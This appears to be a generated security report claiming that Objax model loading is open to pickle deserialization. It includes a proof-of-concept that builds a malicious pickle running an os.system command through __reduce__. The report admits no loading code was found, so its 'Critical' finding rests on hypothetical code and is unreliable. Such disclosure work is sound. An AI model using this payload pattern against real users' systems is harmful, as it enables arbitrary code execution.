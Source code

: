 ### Vulnerability Name: Deserialization of Untrusted Data in Model Loading

### Description:
1. An attacker crafts a malicious file intended to represent a saved Objax model. This file is designed to exploit deserialization mechanisms within Objax's model loading functionality.
2. The attacker distributes this malicious model file through channels like public repositories, email, or compromised websites, enticing Objax users to download and use it.
3. A user, intending to load a pre-trained model, uses Objax's model loading function and unknowingly loads the attacker's malicious file.
4. During the deserialization process, the malicious file triggers the execution of arbitrary code embedded within it. This is possible if Objax uses insecure deserialization practices, for example, using Python's `pickle` or similar libraries without proper sanitization when loading model files.

### Impact:
- **Critical**: Successful exploitation of this vulnerability allows for arbitrary code execution on the user's machine. This could lead to:
    - Complete compromise of the user's system.
    - Data exfiltration and theft of sensitive information.
    - Installation of malware, ransomware, or other malicious software.
    - Denial of service or disruption of user's workflows.

### Vulnerability Rank: Critical

### Currently Implemented Mitigations:
- Based on the provided PROJECT FILES, there is no evidence of any implemented mitigations for deserialization vulnerabilities in model loading, as the relevant code is not present.

### Missing Mitigations:
- **Input Sanitization and Validation**: When loading model files, Objax should thoroughly validate and sanitize the input data to ensure it conforms to the expected format and does not contain malicious code.
- **Secure Deserialization Practices**: Avoid using insecure deserialization libraries like Python's `pickle` directly. If deserialization is necessary, use safer alternatives or implement robust security measures to prevent code execution during deserialization.
- **Sandboxing or Isolation**: If possible, load and deserialize model files in a sandboxed or isolated environment to limit the potential impact of a successful exploit.
- **User Awareness and Documentation**: Provide clear warnings and documentation to users about the risks of loading model files from untrusted sources and best practices for mitigating these risks.

### Preconditions:
1. Objax project must contain functionality to load models from external files.
2. This model loading functionality must employ a deserialization process that is vulnerable to code injection, such as using `pickle` without proper safeguards.
3. The user must download and attempt to load a malicious model file provided by the attacker.

### Source Code Analysis:
- **No Source Code Available in PROJECT FILES**: The provided PROJECT FILES do not contain any code related to model saving or loading. Therefore, a source code analysis to pinpoint the vulnerability is not possible with the given information.
- **Assumed Vulnerable Code (Hypothetical)**: If Objax has model loading functionality that uses `pickle.load(file)` directly without any sanitization, it would be vulnerable.
    ```python
    # Hypothetical vulnerable code snippet (not found in PROJECT FILES)
    import pickle
    import objax

    def load_model(file_path):
        with open(file_path, 'rb') as f:
            model = pickle.load(f) # POTENTIALLY VULNERABLE LINE
        return model
    ```
    In this hypothetical scenario, the `pickle.load(f)` line is vulnerable because it directly deserializes the data from the file without any security checks, allowing for arbitrary code execution if the file is maliciously crafted.

### Security Test Case:
1. **Setup Malicious Model File:**
    - Create a Python script `malicious_model_generator.py` to generate a malicious model file. This script will use `pickle` to serialize a payload that executes arbitrary code when deserialized.
    ```python
    # malicious_model_generator.py
    import pickle
    import objax
    import os

    class MaliciousModel(objax.Module):
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',)) # Malicious payload: creates file /tmp/pwned

    model = MaliciousModel()
    with open('malicious_model.objax', 'wb') as f:
        pickle.dump(model, f)
    ```
    - Run `python malicious_model_generator.py` to create `malicious_model.objax`.

2. **Prepare Test Environment:**
    - Assume a user has a publicly accessible instance of Objax project (e.g., a Colab notebook or a local installation).
    - Place the `malicious_model.objax` file in a location accessible to the user (e.g., cloud storage, local web server).

3. **Exploit Execution:**
    - In the Objax environment, simulate a user attempting to load the malicious model using a hypothetical `load_model` function (or the actual Objax model loading function if it exists):
    ```python
    # In Objax environment (Colab notebook or local installation)
    import objax
    import pickle
    import os

    # Hypothetical vulnerable load_model function (or use actual Objax function if exists)
    def load_model(file_path):
        with open(file_path, 'rb') as f:
            model = pickle.load(f) # POTENTIALLY VULNERABLE LINE
        return model

    try:
        model = load_model('malicious_model.objax')
        print("Model loaded (this line should not be reached if exploit is successful)")
    except Exception as e:
        print(f"Error during model loading: {e}")

    # Check for successful code execution (file creation in /tmp)
    if os.path.exists('/tmp/pwned'):
        print("[VULNERABILITY CONFIRMED] Arbitrary code execution successful!")
        os.remove('/tmp/pwned') # Cleanup
    else:
        print("[VULNERABILITY TEST FAILED] Code execution was not successful.")
    ```

4. **Verification:**
    - Run the Objax code snippet.
    - If the file `/tmp/pwned` is created on the system where Objax code is executed, it confirms the deserialization vulnerability and successful arbitrary code execution.
    - If an error occurs during model loading or the file is not created, the test case does not prove the vulnerability with this specific test, but further investigation with different payloads and analysis of the actual model loading code is still recommended.